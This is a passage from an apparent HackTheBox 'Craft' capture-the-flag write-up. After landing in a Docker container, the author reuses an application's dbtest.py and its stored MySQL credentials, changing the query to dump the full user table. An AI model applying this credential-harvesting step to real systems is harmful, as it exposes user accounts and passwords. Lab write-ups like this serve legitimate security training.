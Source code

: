 <p align="center">
<img src="{{ '/assets/htb-craft/docker-listener.PNG' | relative_url }}">
</p>

<h1>User exploitation</h1>

<p>Wait, root!? Well let's just pop over and get our root flag. Doh... after a few seconds of poking around it became evident that we were in a docker container, not the actual host.</p>

<p>After a bit of poking around we discover a <code>dbtest.py</code> file that seems to connect to the mysql instance running on the docker instance.</p>

{% highlight python %}
/opt/app # cat dbtest.py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
{% endhighlight %}

<p>We copy this file and make slight modifications to see if we can enumerate some data from the mysql instance. Firstly, and this is the part that tripped me up for much too long, we need to change <code>cursor.fetchone()</code> to <code>cursor.fetchall()</code>. This little oversight caused me a lot of pain and ended up sending me down a few rabbit holes before realizing my mistakes. With fetchall set, we can change the query itself to:</p>

{% highlight python %}
sql = "SELECT * FROM user"
{% endhighlight %}

<p>We could use "SHOW TABLES" instead of the query above to determine the tables <code>user</code> and <code>brew</code> would exist, however I initially took a guess and assumed a table <code>user</code> would be present. The final code used ends up looking like the following.</p>

{% highlight python %}
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
